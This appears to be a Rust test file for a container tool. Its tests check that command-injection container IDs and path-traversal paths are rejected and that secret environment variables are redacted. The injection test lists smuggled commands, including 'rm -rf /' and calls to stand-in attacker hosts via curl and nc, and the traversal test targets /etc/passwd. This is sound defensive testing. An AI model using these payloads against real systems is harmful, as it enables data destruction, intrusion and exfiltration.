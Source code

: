 ```rust
#[test]
fn test_command_injection_prevention() {
    let malicious_ids = vec![
        "abc123; rm -rf /",
        "abc123 && curl evil.com",
        "abc123 | nc attacker.com 4444",
    ];

    for malicious_id in malicious_ids {
        let result = validate_container_id(malicious_id);
        assert!(result.is_err(), "Failed to reject: {}", malicious_id);
    }
}

#[test]
fn test_path_traversal_prevention() {
    let malicious_paths = vec![
        "../../../etc/passwd",
        "/etc/passwd",
        "..\\..\\..\\windows\\system32",
    ];

    for malicious_path in malicious_paths {
        let result = validate_safe_path(Path::new(malicious_path), &allowed_base);
        assert!(result.is_err(), "Failed to reject: {}", malicious_path);
    }
}

#[test]
fn test_sensitive_data_redaction() {
    let env_vars = vec![
        ("API_KEY", "secret123"),
        ("PASSWORD", "pass123"),
        ("GITHUB_TOKEN", "ghp_123"),
    ];

    for (key, value) in env_vars {
        std::env::set_var(key, value);
    }

    let collector = ArtifactCollector::new().unwrap();
    let run_info = create_test_run_info();
    let bundle = collector.collect(&run_info).unwrap();

    // Verify all sensitive values are redacted
    for (key, _) in env_vars {
        assert_eq!(
            bundle.environment.get(key),
            Some(&"[REDACTED]".to_string()),
            "Failed to redact {}", key
        );
    }
}
```

---